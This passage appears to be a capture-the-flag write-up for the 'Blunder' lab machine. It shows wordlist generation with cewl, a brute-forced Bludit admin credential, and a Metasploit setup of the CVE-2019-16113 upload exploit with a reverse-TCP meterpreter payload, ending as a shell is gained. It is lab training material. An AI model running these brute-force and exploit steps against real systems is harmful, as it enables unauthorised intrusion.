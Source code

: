 - /todo.txt

![todo](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/todo.png)

## Initial Foothold

I finally have an username (**fergus**) provided from the todo leftover and the login page. 
This way I can take a look on the exploit now.

### bruteforcing

I firstly created a wordlist using **cewl** based on the blog provided from the port 80 :

```sh
root@kali:~# cewl http://10.10.10.191 -w wordlist.txt
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
root@kali:~# ls -la wordlist.txt
-rw-r--r-- 1 root root 2498 Oct 17 16:48 wordlist.txt
```

I then copied the script in the previous blog localy and changed the parameters to my needs :

![exploit](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/exploit.png)

Running the exploit I get some correct credentials after a while :

![bf](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/bf.png)

``fergus:RolandDeschain``

Obviously I can use those creds to login on ``/admin`` and access the dashboard :

![dashboard](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/blunder-writeup/dashboard.png)

While searching for a possible vulnerability previously I also found [CVE-2019-16113](http://cve.circl.lu/cve/CVE-2019-16113),

Another vulnerability (remote command execution) for the **Bludit 3.9.2** version.

I'm going to use metasploit to do that to speed things up, but I recommed doing this one exploit manually as it learned me a few new tricks.

```console
msf5 > use exploit/linux/http/bludit_upload_images_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > set LHOST tun0
```
### www-data shell
After running the exploit we grab a low-privileged shell to the machine :
